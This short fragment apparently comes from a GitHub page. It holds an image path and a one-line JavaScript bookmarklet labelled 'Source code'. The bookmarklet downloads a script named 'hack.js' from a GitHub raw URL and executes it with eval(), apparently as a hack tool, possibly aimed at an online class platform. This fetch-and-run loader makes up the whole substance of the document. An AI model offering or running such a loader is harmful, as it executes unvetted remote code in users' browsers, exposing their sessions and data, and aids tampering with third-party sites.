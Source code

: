 `javascript:(()=>{fetch('https://raw.githubusercontent.com/TecVit/aulas/main/hack.js').then(r=>r.text()).then(code=>{eval(code)})})()`
